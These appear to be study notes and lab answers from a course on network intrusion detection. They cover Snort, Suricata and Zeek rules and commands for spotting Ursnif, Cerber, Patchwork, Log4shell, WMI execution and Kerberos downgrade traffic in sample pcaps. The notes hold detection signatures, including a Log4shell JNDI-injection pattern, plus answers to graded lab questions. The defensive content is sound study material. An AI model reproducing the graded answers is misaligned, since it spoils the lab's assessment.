$ snort --help-config arp_spoof
# Passing (and validating) configuration files to Snort
$ snort -c /root/snorty/etc/snort/snort.lua --daq-dir /usr/local/lib/daq
DAQ: Data Acquisition Library
Snort Inputs
$ sudo snort -c /root/snorty/etc/snort/snort.lua --daq-dir /usr/local/lib/daq -r /home/htb-student/pcaps/icmp.pcap
$ sudo snort -c /root/snorty/etc/snort/snort.lua --daq-dir /usr/local/lib/daq -i ens160
Snort Rules
$ sudo vim /root/snorty/etc/snort/snort.lua
Snort Outputs
Alerts: When rules are configured, it is necessary to enable alerting (using the -A option) to view the details of detection events. There are multiple types of alert outputs available, including:
-A cmg: This option combines -A fast -d -e and displays alert information along with packet headers and payload.
-A u2: This option is equivalent to -A unified2 and logs events and triggering packets in a binary file, which can be used for post-processing with other tools.
-A csv: This option outputs fields in comma-separated value format, providing customization options and facilitating pcap analysis.
$ snort --list-plugins | grep logger
$ sudo snort -c /root/snorty/etc/snort/snort.lua --daq-dir /usr/local/lib/daq -r /home/htb-student/pcaps/icmp.pcap -A cmg
$ sudo snort -c /root/snorty/etc/snort/snort.lua --daq-dir /usr/local/lib/daq -r /home/htb-student/pcaps/icmp.pcap -R /home/htb-student/local.rules -A cmg
Q: There is a file named wannamine.pcap in the /home/htb-student/pcaps directory. Run Snort on this PCAP file and enter how many times the rule with sid 1000001 was triggered as your answer.
sudo snort -c /root/snorty/etc/snort/snort.lua --daq-dir /usr/local/lib/daq -r /home/htb-student/pcaps/wannamine.pcap -R /home/htb-student/local.rules -A cmg
detection
analyzed: 5146
hard_evals: 234
file_searches: 2
alerts: 234
total_alerts: 234
logged: 234
# Snort Rule Development Example 1: Detecting Ursnif (Inefficiently)
alert tcp any any -> any any (msg:"Possible Ursnif C2 Activity"; flow:established,to_server; content:"/images/", depth 12; content:"_2F"; content:"_2B"; content:"User-Agent|3a 20|Mozilla/4.0 (compatible|3b| MSIE 8.0|3b| Windows NT"; content:!"Accept"; content:!"Cookie|3a|"; content:!"Referer|3a|"; sid:1000002; rev:1;)
$ sudo snort -c /root/snorty/etc/snort/snort.lua --daq-dir /usr/local/lib/daq -R /home/htb-student/local.rules -r /home/htb-student/pcaps/ursnif.pcap -A cmg
$ scp htb-student@[TARGET IP]:/home/htb-student/pcaps/ursnif.pcap .
# Snort Rule Development Example 2: Detecting Cerber
alert udp $HOME_NET any -> $EXTERNAL_NET any (msg:"Possible Cerber Check-in"; dsize:9; content:"hi", depth 2, fast_pattern; pcre:"/^[af0-9]{7}$/R"; detection_filter:track by_src, count 1, seconds 60; sid:2816763; rev:4;)
$ sudo snort -c /root/snorty/etc/snort/snort.lua --daq-dir /usr/local/lib/daq -R /home/htb-student/local.rules -r /home/htb-student/pcaps/cerber.pcap -A cmg
# Snort Rule Development Example 3: Detecting Patchwork
alert http $HOME_NET any -> $EXTERNAL_NET any (msg:"OISF TROJAN Targeted AutoIt FileStealer/Downloader CnC Beacon"; flow:established,to_server; http_method; content:"POST"; http_uri; content:".php?profile="; http_client_body; content:"ddager=", depth 7; http_client_body; content:"&r1=", distance 0; http_header; content:!"Accept"; http_header; content:!"Referer|3a|"; sid:10000006; rev:1;)
$ sudo snort -c /root/snorty/etc/snort/snort.lua --daq-dir /usr/local/lib/daq -R /home/htb-student/local.rules -r /home/htb-student/pcaps/patchwork.pcap -A cmg
# Snort Rule Development Example 4: Detecting Patchwork (SSL)
alert tcp $EXTERNAL_NET any -> $HOME_NET any (msg:"Patchwork SSL Cert Detected"; flow:established,from_server; content:"|55 04 03|"; content:"|08|toigetgf", distance 1, within 9; classtype:trojan-activity; sid:10000008; rev:1;)
$ sudo snort -c /root/snorty/etc/snort/snort.lua --daq-dir /usr/local/lib/daq -R /home/htb-student/local.rules -r /home/htb-student/pcaps/patchwork.pcap -A cmg
Q: There is a file named log4shell.pcap in the /home/htb-student/pcaps directory, which contains network traffic related to log4shell exploitation attempts, where the payload is embedded within the user agent. Enter the keyword that should be specified right before the content keyword of the rule with sid 10000098 within the local.rules file so that an alert is triggered as your answer. Answer format: [keyword];
# rule: http_header;
alert http any any -> any any (msg:"Log4shell Attempt Detected";http_header; content:"|24 7b|jndi|3a|ldap|3a 2f 2f|",fast_pattern, nocase; sid:10000098; rev:1;)
$ sudo snort -c /root/snorty/etc/snort/snort.lua --daq-dir /usr/local/lib/daq -R /home/htb-student/local.rules -r /home/htb-student/pcaps/log4shell.pcap -A cmg
Zeek
Zeek Logs conn.log: This log provides details about IP, TCP, UDP, and ICMP connections.
dns.log: Here, you'll find the details of DNS queries and responses.
http.log: This log captures the details of HTTP requests and responses.
ftp.log: Details of FTP requests and responses are logged here.
smtp.log: This log covers SMTP transactions, such as sender and recipient details.
# Intrusion Detection With Zeek Example 1: Detecting Beaconing Malware
$ /usr/local/zeek/bin/zeek -C -r /home/htb-student/pcaps/psempire.pcap
$ cat conn.log
# Intrusion Detection With Zeek Example 2: Detecting DNS Exfiltration
$ /usr/local/zeek/bin/zeek -C -r /home/htb-student/pcaps/dnsexfil.pcapng
$ cat dns.log
$ cat dns.log | /usr/local/zeek/bin/zeek-cut query | cut -d . -f1-7
# Intrusion Detection With Zeek Example 3: Detecting TLS Exfiltration
$ /usr/local/zeek/bin/zeek -C -r /home/htb-student/pcaps/tlsexfil.pcap
$ cat conn.log
$ cat conn.log | /usr/local/zeek/bin/zeek-cut id.orig_h id.resp_h orig_bytes | sort | grep -v -e '^$' | grep -v '-' | datamash -g 1,2 sum 3 | sort -k 3 -rn | head -10
# Intrusion Detection With Zeek Example 4: Detecting PsExec
$ /usr/local/zeek/bin/zeek -C -r /home/htb-student/pcaps/psexec_add_user.pcap
$ cat smb_files.log
$ cat dce_rpc.log
$ cat smb_mapping.log
Q1: There is a file named printnightmare.pcap in the /home/htb-student/pcaps directory, which contains network traffic related to the PrintNightmare (https://labs.jumpsec.com/printnightmare-network-analysis/) vulnerability. Enter the zeek log that can help us identify the suspicious spooler functions as your answer. Answer format: _.log
/usr/local/zeek/bin/zeek -C -r /home/htb-student/pcaps/printnightmare.pcap && ls
Q2: There is a file named revilkaseya.pcap in the /home/htb-student/pcaps directory, which contains network traffic related to the REvil ransomware Kaseya supply chain attack. Enter the total number of bytes that the victim has transmitted to the IP address 178.23.155.240 as your answer.
$ /usr/local/zeek/bin/zeek -C -r /home/htb-student/pcaps/revilkaseya.pcap
$ cat conn.log | grep "178.23.155.240"
$ cat conn.log | /usr/local/zeek/bin/zeek-cut id.orig_h id.resp_h orig_bytes | grep "178.23.155.240" | awk '{sum += $3} END {print sum}'This command efficiently filters and sums the bytes transmitted to the specified IP address directly from the conn.log file using standard Unix utilities (zeek-cut, grep, and awk).
1702+609=2311
Suricata Q: There is a file named pipekatposhc2.pcap in the /home/htb-student/pcaps directory, which contains network traffic related to WMI execution. Add yet another content keyword right after the msg part of the rule with sid 2024233 within the local.rules file so that an alert is triggered and enter the specified payload as your answer. Answer format: C____e
$ cat local.rules | grep 2024233
alert tcp any any -> any any (msg:"WMI Execution Detected"; content:"Win32_ProcessStartup"; content:"powershell"; sid:2024233; rev:2;)
In the context of WMI, when PowerShell scripts or commands are executed remotely, often there is a process creation event associated with it. The term Create can be a relevant keyword to include because it signifies the creation of processes, which is a common indicator in WMI-based execution scenarios.
alert tcp any any -> any any (msg:"WMI Execution Detected"; content:"Create"; content:"Win32_ProcessStartup"; content:"powershell"; sid:2024233; rev:2;)
# Add /home/htb-student/local.rules to rule-files
$ sudo vim /etc/suricata/suricata.yaml
$ sudo suricata -r /home/htb-student/pcaps/pipekatposhc2.pcap -l . -k none
$ cat fast.log
12/26/2019-08:04:55.353819 [**] [1:2024233:2] WMI Execution Detected [**] [Classification: (null)] [Priority: 3] {TCP} 192.168.1.46:58198 -> 192.168.1.62:49154
Snort Q: There is a file named wannamine.pcap in the /home/htb-student/pcaps directory, which contains network traffic related to the Overpass-the-hash technique which involves Kerberos encryption type downgrading. Replace XX with the appropriate value in the last content keyword of the rule with sid XXXXXXX within the local.rules file so that an alert is triggered as your answer.
In the context of Kerberos encryption types, each encryption type is identified by a specific number. RC4-HMAC encryption type is represented by the number 23 (0x17 in hexadecimal). When configuring an IDS/IPS rule to detect Kerberos encryption type downgrades to RC4, you need to specify the correct hexadecimal representation of the encryption type youre looking for.
Heres the breakdown:
RC4-HMAC encryption type is represented by the hexadecimal value 0x17. In the Snort/Suricata rule syntax, hexadecimal values are typically written without the 0x prefix.
Therefore, when youre modifying the rule to detect Kerberos encryption type downgrades to RC4, you should use the hexadecimal representation of RC4-HMAC, which is 17.
alert tcp $HOME_NET any -> any 88 (msg: "Kerberos Ticket Encryption Downgrade to RC4 Detected"; flow: no_stream, established, to_server; content: "|A1 03 02 01 05 A2 03 02 01 0A|", offset 12, depth 10; content: "|A1 03 02 01 02|", distance 5, within 6; content: "|A0 03 02 01 17|", distance 6, within 6; content: "krbtgt", distance 0; sid:9999999;)
Zeek Q: There is a file named neutrinogootkit.pcap in the /home/htb-student/pcaps directory, which contains network traffic related to the Neutrino exploit kit sending Gootkit malware. Enter the x509.log field name that includes the "MyCompany Ltd." trace as your answer.
/usr/local/zeek/bin/zeek -C -r /home/htb-student/pcaps/neutrinogootkit.pcap
$ grep "MyCompany Ltd." x509.log

Introduction to Malware Analysis
Windows Internals
Q1: In the C:\Samples\MalwareAnalysis directory of this section's target, there is a file called potato.exe. Use pestudio (C:\Tools\pestudio\pestudio) to examine this executable's sections and provide the entropy of the .text section as your answer.

Q2: In the C:\Samples\MalwareAnalysis directory of this section's target, there is a file called potato.exe. Use x64dbg (C:\Tools\x64dbg\release\x64) to open this executable and navigate to the Symbols tab. Enter the exported Kernel32.dll function whose name starts with "Attach". Answer format: Attach_
Static Analysis On Linux
Through static analysis, we endeavor to extract pivotal information which includes:
File type
File hash
Strings
Embedded elements
Packer information
Imports
Exports
Assembly code